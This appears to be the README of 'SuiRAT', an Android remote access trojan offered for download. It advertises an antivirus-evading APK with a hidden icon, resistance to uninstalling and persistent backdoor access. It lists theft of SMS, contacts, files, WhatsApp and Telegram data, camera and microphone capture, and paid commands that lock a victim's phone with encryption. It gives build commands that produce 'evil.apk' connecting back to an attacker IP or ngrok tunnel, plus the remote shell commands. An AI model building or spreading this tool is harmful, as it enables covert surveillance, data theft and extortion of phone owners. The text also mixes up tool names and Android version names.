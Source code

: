 # SuiRAT<p align="center">
<img src="https://github.com/alewana/SuiRAT/SuiRAT.png" height="60"><br>
SuiRAT is a client/server application developed in Java Android for the client side and the Server is in Python
</p>



## Features
- ✅ Fud Apk
- ✅ Anti Uninstall Android (4.4 to 10)
- ✅ Light Weight Apk Which Runs 24*7 in Background
- ✅ Full Persistent Backdoor 
- ✅ Invisible Icon On Install
- ✅ Real Time
- ✅ Receive Any File or Folder From Target Device
- ✅ Bind With Other Apps
- ✅ Fetch All Whatsapp Photo,Video
- ✅ Fetch All Ahatsapp Contacts
- ✅ Receive All Target Message
- ✅ Send Sms With Target Device To Any Number
- ✅ Recive All Target Contacts
- ✅ Fetch All Telegram Contacts
- ✅ Fetch All Telegram Docs,Image,VideosVideos
- ✅ Get Ip Address From Target Device
- ✅ Get MacAddress From Target Device
- ✅ Receive List of All Installedd Apps In Target Device
- ⏳ Delete Any File Or Folder From Target Device
- ⏳ Capture Main And Front Camera
- ⏳ Record Main And Front Camera
- ⏳ Capture Microphone
- ⏳ Receive last Clipboard Text



## TODO
- ~~Ngrok Support~~
- Add screenshot command
- Add Screen Mirroring
- Add WebPanel

## Installation
### For Termux Users
- `apt update -y`
- `apt upgrade -y`
- `apt install python -y`
- `apt install python2 -y`
- `apt install python3 -y`
- `apt install git -y`
- `apt install openjdk-17`
- `git clone https://github.com/alewana/SuiRat.git`
- `cd SuiRat`
- `pip install -r requirements.txt`

## Prerequisites
AndroRAT requires Python3 and JAVA (or Android Studio)

### For Linux/Nethunter
1. Install NodeJs `apt install nodejs`

2. Clone `git clone https://github.com/alewana/SuiRat.git`

3. Goto server directory `cd SuiRat`

4. Install Requirements `pip install -r requirements.txt`

##### SuiRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> SuiRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 


After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
     deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a interactive shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    Dump Telegram [Premium] --> Dump Telegram Docs,Images,Video 
    getIP                      --> returns the ip of the device
    Dump Whatsapp [Premium]  -> Dump Whatsapp Database Massages
    getClipData                --> return the current saved text from the clipboard
    getMACAddress            --> returns the mac address of the device
    Lock Device  [Premium]   --> Lock Mobile with 256 bit Encryption
    Unlock Device.          --> Unlock Victim Mobile with 256 Decryption
    exit                       --> exit the SuiRat
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 androRAT.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 androRAT.py --shell -i 0.0.0.0 -p 8000```


### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 SuiRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "alewana.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 SuiRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 SuiRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

## Thanks
 - Inspiration for the project and the basic building blocks for the Android App are based off [AndroRAT](https://github.com/karma9874/AndroRAT) 
 
## Contact Info

Telegram `@Alewana_dev

## Disclaimer
<b>I ( Ahtisham a.k.a AlewanaEzexer )  Provides no warranty with this software and will not be responsible for any direct or indirect damage caused due to the usage of this tool.<br>
SuiRAT is built for both Educational and Internal use ONLY.</b>

